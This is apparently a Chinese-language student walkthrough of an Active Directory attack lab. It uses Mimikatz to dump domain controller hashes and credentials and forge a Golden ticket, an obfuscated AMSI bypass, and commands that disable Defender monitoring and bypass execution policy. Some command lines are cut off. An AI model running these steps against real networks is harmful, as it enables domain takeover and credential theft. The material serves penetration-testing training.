 ```
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'


# Learning Objective - 8
> Task
> ● Dump hashes on the domain controller of dollarcorp.moneycorp.local.
> ● Using the NTLM hash of krbtgt account, create a Golden ticket.
> ● Use the Golden ticket to (once again) get domain admin privileges from a machine.


现在我们已经是Domain Admins管理组成员。在新开的DA权限的shell里运行Find-PSRemotingLocalAdminAccess
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Find-PSRemotingLocalAdminAccess
dcorp-adminsrv
dcorp-dc
dcorp-mgmt
dcorp-std359
dcorp-std363
dcorp-std360
dcorp-std362
dcorp-std364
dcorp-std370
dcorp-std369
dcorp-std368
dcorp-std365
dcorp-std367
dcorp-std361
dcorp-ci
dcorp-std366
dcorp-mssql
dcorp-sql1
dcorp-appsrv
```

可以以本地管理员身份登录到dcorp-dc
```
PS C:\ad> Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
dcorp-dc
```
回到学生有AD权限的学生机器shell里，用下面命令导出dcorp-dc里的所有哈希
```Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc ```

操作步骤如下：
```
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd c:/ad
PS C:\ad> powershell -ep bypass
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\